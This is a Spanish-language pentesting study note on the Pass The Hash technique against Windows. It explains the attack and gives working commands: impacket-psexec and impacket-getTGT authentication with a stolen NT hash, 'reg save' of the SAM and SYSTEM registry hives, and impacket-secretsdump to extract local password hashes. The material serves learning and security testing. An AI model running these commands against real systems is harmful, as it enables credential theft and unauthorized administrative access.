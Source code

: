 ----
- Tags: #teoria #practica #windows #basico 
- ------
# Pass The Hash (PTH)
### **Pass The Hash** es una técnica utilizada por los a tacntes en la qeu se aprovechan de un hash de contraseña robado en lugar de la contraseña en texto claro para aunteticarse en un sistema o red. En lugar de descifrar la contraseña real, los atacntes toman el hash de contraseña y lo utilizan como una credencial para accceder a sistemas y recursos sin conocer la contraseña real del usuario.

- ### **Obtención del Hash NT**: El atacante primero necesita robar o adquirir de alguna manera el **Hash NT** de una cuenta de usuario. Esto puede hacerse mediante ataques previos, como ataques de captura de tráfico, [[Kerberoasting Attack]], o explotando vulnerabilidades en sistemas o aplicaciones.

- ### **Uso de Hash NT**: Una vez que el atacante tiene el Hash NT, puede utilizarlo para autenticarse en sistemas y recursos. El sistema o el servidor de destino calcula el hash de la contraesña proporcionado por el atacante y lo compara con el hash robado. Si coinciden, se conocede el acceso sin necesidad de conocer la contraseña real.

- ### **Acceso no autorizado**: Con el Hash NT correcot, el atacante puede obtener acceso no autorizado a sistemas, aplicaciones y recursos que normalmente requerirían una autenticación válida. Esto puede incluir servidores, base de datos, recursos compartidos a nivel de red y otros sistemas críticos.

----
# PoC
### Por ejemplo, supongamos que logramos obtener el Hash NT del usuario Administrador, haciendo uso de la suite de impacket, con herramientas como **imapcket-psexec**

```bash
# Una vez obtenido un Hash NT, ejemplo: 
"aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00"

# Ambas maneras son validas para llevar a cabo el Pass The Hash
impacket-psexec WORKGROUP/{Administrator}@{target_ip} -hashes :e0fb1fb85756c24235ff238cbe81fe00
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@{target_ip}
```
### De esta manera nos podríamos autenticar como el usuario administrador en la máquina windows sin proporcionar contraseña ya que en lugar de esta proporcionamos el **hash NTLM**. 

### Otro ejemplo, es realizar una petición de un TGT, lo que nos permite continuar con el flujo normal de [[Kerberos]] (Gráfico de autenticación: [[KERBEROS_AUTHETICATION_FLOW]]), para obtener acceso a un servicio específico.

```bash
impacket-getTGT {dc}/{username} -hashes :{Hash_NT}

export KRB5CCNAME={path/to/username.ccache/downloaded}

impacket-psexec {dc}/{username}@{ip} -k -no-pass
```
### Obteniendo así, una vez más, la [[RCE - (Remote Command Execution)]].

------
# PoC para obtener hashes NT 

### Por ejemplo, para realizar un **Pass The Hash** en caso de que tengamos privilegios y poder así intentar escalar los mismos, podríamos hacer uso de la herramienta **impacket-secretsdump** junto al archivo *system* y *sam* del sistema víctima. 

### La herramienta **impacket-secretsdump** es una herramienta utilizada para extrar y mostrar informacio´n relacionada con las credenciales y secretos almacenados en un sistema Windows. (Volcado de Hashes NTLM, extracción de credenciales almancenadas, extracción sobre cuentas de usuarios y grupos, mostrar información sobre servicios y volcado de información del registros de seguridad).

### El archivo **system** es un archivo del registro de Windows que contiene información sobre la configuración y ajustes del sistema, así como detalles sobre los controladores de dispositivos y la configuración del hardware. 

### El archivo **sam (Security Accounts Manager)** es un archivo del registro de Windows, que contiene las cuentas de usuario y las claves de seguridad relacionadas con la autenticación en el sistema.

#### En la máquina victima:
```shell
reg save HKLM\system system
reg save HKLM\sam sam 

# HKLM = HKEY_LOCAL_MACHINE (Una clave de raíz del Registro Windows)
```
### Con la instrucción **reg save** estamos creando una copia de seguridad del contenido del archivo **system** y del archivo **sam**, para posteriormente descargarlo a nuestra máquina y así poder dumpear los hashes NT para realizar un **Pass The Hash**. 

#### En la máquina atacante:
```bash
impacket-secretsdump -sam {sam_file} -system {system_file} LOCAL
```
### Una vez ejecutado este comando, obtendremos una lista de todos los hashes NT de los usuarios registrados en la máquina victima. 

#### IMPORTATE: Es importante tener en cuenta que esto volcará los hashes almacenados en la máquina, por lo que si estamos en un entorno de Active Directory hay que entender que no se estan volcando los hashes NT del Domain Controler. Para obtener los hashes de los usuarios del dominio de Active Directory habría que enfocarse en el archivo **NTDS.dit**. 

